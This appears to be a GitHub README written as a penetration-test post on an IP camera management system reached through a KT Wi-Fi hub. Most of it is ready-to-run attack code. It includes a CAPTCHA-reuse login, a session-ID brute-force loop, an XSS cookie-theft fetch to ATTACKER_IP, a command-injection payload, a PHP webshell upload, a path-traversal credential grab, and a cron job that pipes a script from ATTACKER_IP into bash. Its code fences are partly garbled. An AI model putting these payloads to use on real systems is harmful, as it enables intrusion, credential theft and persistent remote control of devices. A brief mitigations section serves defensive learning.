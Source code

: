 # KT_GiGA_WiFi_Pen-test
Thought about KT publc Wifi or Home Hub

Exploiting Weak Authentication & Session Hijacking in an IP Camera System
Introduction
During a recent security assessment, I discovered an IP camera management system (http://172.30.1.254:8899) with multiple vulnerabilities, including weak authentication, CAPTCHA bypasses, and insecure session handling. This post details the flaws found and how they could be exploited for privilege escalation, cookie theft, and remote code execution (RCE).

1. Weak Authentication & CAPTCHA Bypass
Issue #1: Base64-Encoded Passwords
The system sends passwords in Base64 (not real encryption):

http
POST /login HTTP/1.1  
user_pwd=ZGV2anVzdGljZQo=  # Decodes to "devjustice"
Exploit:

bash```
echo "ZGV2anVzdGljZQo" | base64 --decode ```
Issue #2: Predictable CAPTCHA
The CAPTCHA (captcha_txt=chpfv) is static or easily guessable.
Bypass: Reuse the same CAPTCHA token:

bash
curl -X POST "http://172.30.1.254:8899/login" -d "captcha_txt=chpfv&user_id=admin&user_pwd=BASE64_PASS"
2. Session Hijacking & Cookie Theft
Issue #3: Insecure Session Tokens (sid)
The sid cookie lacks HttpOnly, making it stealable via XSS.

No clear time-based/database pattern, but sequential brute-forcing may work.

Bruteforce Attack:

bash
bash```
for i in {214000..215000}; do
  curl -s "http://172.30.1.254:8899/status/system_info" -H "Cookie: sid=$i" | grep -q "System Info" && echo "Valid SID: $i"
done```
XSS Cookie Stealing (If Vulnerable):

javascript
fetch('http://ATTACKER_IP/steal?cookie=' + document.cookie);



3. Privilege Escalation (RCE & Backdoors)
Issue #4: Command Injection in /status/system_info
If the endpoint executes system commands:

bash```
curl -X POST "http://172.30.1.254:8899/status/system_info" \
  -H "Cookie: sid=VALID_SID" \
  -d "cmd=;id"```
Issue #5: Arbitrary File Upload (If Available)
Upload a PHP webshell:

bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
curl -X POST -F "file=@shell.php" "http://172.30.1.254:8899/upload"
Then execute commands:
```
bash
curl "http://172.30.1.254:8899/uploads/shell.php?cmd=id"
```

4. Post-Exploitation & Data Exfiltration
Dump Credentials
```

curl -H "Cookie: sid=VALID_SID" "http://172.30.1.254:8899/../../.env"
Cronjob Persistence
```

bash

```
curl -X POST "http://172.30.1.254:8899/status/system_info" \
  -H "Cookie: sid=VALID_SID" \
  -d "cmd=echo '* * * * * curl http://ATTACKER_IP/shell.sh | bash' >> /var/spool/cron/root"
```


5. Mitigations & Lessons Learned
How to Fix These Issues?
✅ Use HTTPS (prevent sniffing).
✅ Replace Base64 with proper hashing (bcrypt, Argon2).
✅ Secure cookies (HttpOnly, Secure, SameSite=Strict).
✅ Rate-limit CAPTCHA attempts.
✅ Sanitize user input (block ;, |, $(cmd) in commands).


Final Thoughts
This system had multiple critical flaws that could lead to full compromise. While some attacks required authentication, session hijacking and RCE were possible due to weak design.

Key Takeaways:
🔴 Never trust client-side validation (Base64 ≠ encryption).
🔴 CAPTCHAs must be server-validated.
🔴 Session tokens must be unpredictable.

For ethical hackers, this serves as a reminder to test rigorously. For developers, it’s a lesson in secure design.
